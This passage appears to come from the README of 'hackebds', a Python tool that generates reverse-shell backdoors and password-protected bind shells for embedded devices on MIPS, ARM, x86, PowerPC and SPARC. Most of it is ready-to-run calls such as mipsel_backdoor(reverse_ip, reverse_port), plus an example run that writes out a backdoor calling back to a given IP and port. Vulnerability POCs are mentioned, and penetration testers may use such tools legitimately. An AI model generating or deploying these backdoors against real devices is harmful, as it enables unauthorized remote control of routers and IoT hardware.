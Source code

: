    ```
   hackebds -add
   ```

   ![image-20230213111024854](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213111024854.png)

   If there are device information errors, POC errors, or you want to integrate your collected device information with vulnerabilities, please contact me doudoudedi233@gmail.com

   

2. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip, reverse_port)
>>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
>>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
>>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
>>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
>>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
>>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
>>> aarch64_ bind_ shell(listen_port, passwd)
>>> mips_bind_shell(listen_port, passwd)
>>> mipsel_bind_shell(listen_port, passwd)
>>> sparc32.sparc_bind_shell(listen_port, passwd)
>>> powerpc_info.powerpc_bind_shell(listen_port, passwd)
```

（Note that the maximum password length is 4 characters for x86（32bits） and 8 characters for x64（64bits））

```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```

![image-20221028144512270](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png)
